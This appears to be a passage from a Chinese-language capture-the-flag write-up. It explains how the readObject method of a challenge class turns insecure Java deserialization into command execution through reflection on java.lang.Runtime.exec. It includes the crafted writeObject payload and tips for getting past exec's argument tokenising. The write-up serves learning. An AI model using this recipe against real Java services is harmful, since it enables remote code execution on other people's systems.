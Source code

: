 可以看出它會載入 base64 編碼過後的 Java 序列化資料，那有哪些地方反序列化會有危害呢？（註：雖然 [ysoserial](https://github.com/frohoff/ysoserial) 上有兩條 `spring-core` 的鏈，但這題所使用的版本已經不能利用了）

實際的問題點在 `/WEB-INF/classes/com/cat/Maou` 的 `readObject` 方法

```java
this.DEMON_NAMES = (String[]) stream.readObject(); // 貓咪🐱候選名稱陣列
this.CAT_NAME_SETTER = (String) stream.readObject(); // 設定 Cat.name 的方法名稱
this.name = (String) stream.readObject();
this.cats = new ArrayList<>();

// 類似長這樣的陣列：["com.cat.BabyCat", "com.cat.SuperCat", ...] 
ArrayList<String> catClsStrings = (ArrayList<String>) stream.readObject(); 

for (String catCls : catClsStrings) {
    String[] parts = catCls.split("\\.");
    String typeName = parts[parts.length - 1];

    Class<?> cls = Class.forName(catCls); // 透過 class name（例如 "com.cat.BabyCat"）拿到 class 本體
    Method method = cls.getMethod(CAT_NAME_SETTER, String.class); // 拿到該 class 的 CAT_NAME_SETTER 方法
    Constructor constructor = cls.getDeclaredConstructor(); 
    constructor.setAccessible(true);
    Object cat = constructor.newInstance(); // 生出一個 instance
    method.invoke(cat, genCatName() + "-" + typeName); // 呼叫前面拿到的 CAT_NAME_SETTER 方法
    				// ^^^ genCatName 是從 DEMON_NAMES 裡隨機挑一個字串出來
    this.cats.add((Cat) cat);
}
```

直接講結論，我們可以用如下的程式碼取得 `java.lang.Runtime.exec`，藉此執行任意指令

```java
Class cls = Class.forName("java.lang.Runtime");
Method method = cls.getMethod("exec", String.class);
constructor.setAccessible(true);
Object obj = constructor.newInstance();
method.invoke("ls -al");
```

回推到上面 `Maou` 的  `readObject` 方法，應該就能很清楚的知道要怎麼設定每個值了

```java
private void writeObject(java.io.ObjectOutputStream stream) throws IOException {
    String[] DEMON_NAMES = { "bash -c ... " };
    stream.writeObject(DEMON_NAMES);
    stream.writeObject("exec"); // this.CAT_NAME_SETTER
    stream.writeObject("meowmeow..."); // this.name

    ArrayList<String> catsClass = new ArrayList<>();
    catsClass.add("java.lang.Runtime");
    stream.writeObject(catsClass);
}
```

這邊有一個小問題，由於 `java.lang.Runtime.exec` 並不是直接呼叫 `/bin/sh` 之類的東西，而是直接用空白字元切 token，再把每一個 token 作為 argv 塞回去，所以不能用任何 shell 的語法。這點可以用 `bash -i [CMD]` 來解決，但後面的 CMD 部分仍然不能有任何空白。好像有很多人卡在這邊找不到解法，但其實很容易能 Google 到有人已經幫我們寫好工具了：http://jackson-t.ca/runtime-exec-payloads.html
